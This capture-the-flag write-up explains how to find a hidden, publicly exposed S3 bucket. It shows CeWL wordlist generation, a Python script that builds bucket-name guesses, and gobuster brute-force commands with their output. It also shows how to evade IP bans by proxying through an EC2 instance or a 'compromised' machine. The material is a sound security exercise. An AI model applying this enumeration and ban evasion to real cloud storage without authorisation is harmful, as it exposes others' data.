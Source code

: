 # Challenge: Find the leaking bucket!
It was made known to us that agents of COViD are exfiltrating data to a hidden S3 bucket in AWS! We do not know the bucket name! One tip from our experienced officers is that bucket naming often uses common words related to the company’s business.
Do what you can! Find that hidden S3 bucket (in the format “word1-word2-s4fet3ch”) and find out what was exfiltrated!

Company Website: https://d1ynvzedp0o7ys.cloudfront.net/

## Summary:
This company had a misconfigured S3 bucket which was publically exposed to the internet. Players had to brute-force the S3 bucket name using the words on the website to discover
this misconfigured bucket. They then had to perform a known plaintext attack on an encrypted zip file to obtain the flag.

Related MITRE ATT&CK techniques: 

T1530 - https://attack.mitre.org/techniques/T1530/

## Tools used:
OS - Kali Linux

CeWL - wordlist generator (https://github.com/digininja/CeWL)

Gobuster v3.0.1- URL Fuzzer (https://github.com/OJ/gobuster)

Amazon EC2 Instance (Optional) - as a proxy 

FoxyProxy browser plugin - browser plugin for proxying (https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/)

## Process:
From the website we see that there are words that are shown, from the challenge description we see that we have to use the common words related to the company's business.

### Step 1: Building the Wordlist
One tool we can use to extract the words is CeWL, CeWL is a tool that helps us generate wordlists from a website based on the words shown there

``````
cewl https://d1ynvzedp0o7ys.cloudfront.net/ > wordlist.txt
``````
This tool however does not work on pictures and it looks like we have to manually extract keywords from the Steve Jobs quote, to be safe I just extracted the entire Steve Jobs quote. I cleaned up the wordlist by removing capital letters as S3 buckets cannot consist of capital letters (https://docs.aws.amazon.com/AmazonS3/latest/dev/BucketRestrictions.html) as well as the CeWL header which generates everytime CeWL is loaded. The final wordlist can be found here - https://github.com/BunchOfBytes/STF-2020/blob/main/Cloud/wordlist.txt.

Now from this wordlist we can create a small Python script which helps us to generate all the possible S3 bucket names in the format “word1-word2-s4fet3ch”

File: script.py (https://github.com/BunchOfBytes/STF-2020/blob/main/Cloud/script.py)
``````
##Create a list of words from wordlist
wordlist=[]
file = 'wordlist.txt'
with open(file, 'r') as f:
    for line in f:
        line = line.rstrip("\n")    
        wordlist.append(line)

##Print the words to be outputted which will be redirected into a file later
for i in wordlist:
   str=""
   str+=(i+"-")
   print(str)
   for j in wordlist:
       str+=(j+"-")
       str+="s4fet3ch"
       print(str)
       str=(i+"-")
``````

Now we just redirect it to a new txt file
``````
python script.py > possible.txt
``````

### Step 2: Performing the bruteforce
Now we can use Gobuster which can help us to perform a directory bruteforce attack using our wordlist that we built. Please note that this should be performed with the latest
version of Gobuster (v3.0.1) as the syntax has changed a little over time
``````
gobuster dir -u http://s3-ap-southeast-1.amazonaws.com/ -w possible.txt
``````
You should receive the following output:
``````
===============================================================
2020/12/09 02:09:25 Finished
===============================================================
root@kali:~/Downloads# gobuster dir -u http://s3-ap-southeast-1.amazonaws.com/ -w possible.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://s3-ap-southeast-1.amazonaws.com/
[+] Threads:        10
[+] Wordlist:       possible.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/09 02:11:17 Starting gobuster
===============================================================
/think-innovation-s4fet3ch (Status: 200)
===============================================================
2020/12/09 02:11:20 Finished
===============================================================
``````
If you do not receive the above, that means AWS has perhaps shadowbanned you from viewing bucket listings, I have included an optional step for you to take a look in case
you would like to bypass this (see below!)

Now we can visit https://s3-ap-southeast-1.amazonaws.com/think-innovation-s4fet3ch to view the XML listing of the bucket.

### Optional Step: What if I am blocked from scanning buckets on AWS?
Often times, especially when performing a pentest, we may try to mount bruteforce attacks and suddenly get banned from logging into the machine. If the ban is based on IP, instead of asking a client to reset a production machine which can cost our client money for the downtime, we can instead proxy our login requests through another machine we compromised.

Similarly, I created an Amazon EC2 Instance on the ap-southeast-1 region to proxy my requests through. You may read up how to do that here: (https://docs.aws.amazon.com/efs/latest/ug/gs-step-one-create-ec2-resources.html)

Once we have received our public key and created an instance we first change our permissions for the public key file (Replace with your public key name)
``````
chmod 400 stf.pem
``````

And we can perform a dynamic SSH portforwarding, (replace the public key name and generated EC2 address with your own.)
``````
ssh -i stf.pem -N -D 127.0.0.1:8080 ec2-user@52.221.195.216
``````

We can now utilise our machine as a proxy, luckily for us, Gobuster has an option for us to specify a proxy using -p
``````
gobuster dir -u http://s3-ap-southeast-1.amazonaws.com/ -p socks5://127.0.0.1:8080 -w possible.txt
``````
We can also use our browser to view the XML listing of files in the S3 bucket using the FoxyProxy browser plugin (See here: https://null-byte.wonderhowto.com/how-to/use-burp-foxyproxy-easily-switch-between-proxy-settings-0196630/) Configure it to use the proxy IP 127.0.0.1, port 8080 and proxy type SOCKS5. We should be able see the XML listing and hence download the secret-files.zip. 
### Writeup by: Haxatron
